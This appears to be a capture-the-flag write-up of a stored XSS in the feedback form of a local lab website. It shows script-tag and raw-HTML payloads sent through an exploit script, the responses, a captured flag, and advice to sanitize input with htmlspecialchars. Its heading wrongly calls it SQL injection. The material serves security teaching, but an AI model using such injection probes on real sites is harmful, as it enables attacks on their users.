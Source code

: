 # SQL injection searchimg

## Exploitation

On the homepage, on the bottom, there is a button **Feedback**. On the page (http://192.168.1.48/?page=feedback), there is a form to write a feedback. Let's try a stored XSS

```
$ ./exploit.py '<script>alert(1);</script>'
...
   <td>
    Name : alert(1)
   </td>
...
```

With a `<script>`, the html was escaped, try with raw html

```
$ ./exploit.py '<div>coucou</div>'
...
       <td>
        Name :
        <div>
         coucou
        </div>
       </td>
...
```

Worked with raw html on the "name" input. But no flag

After some random test, it worked with the name "a". Wtf?

```
$ ./exploit.py '<div>a</div>'
...
    <center>
     <h2 style="margin-top:50px;">
      The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
     </h2>
     <br/>
     <img alt="" height="200px" src="images/win.png" width="200px"/>
    </center>
...
```

## How to fix it?

To escape the stored XSS, you have to sanitize all the input data. Like a SQL injection, never trust user data. In all languages, there is functions to do this. For exemple in php : `htmlspecialchars`

A better way is to use frameworks for your website and forms. The good framework do this job for you

## References

https://owasp.org/www-community/attacks/xss/


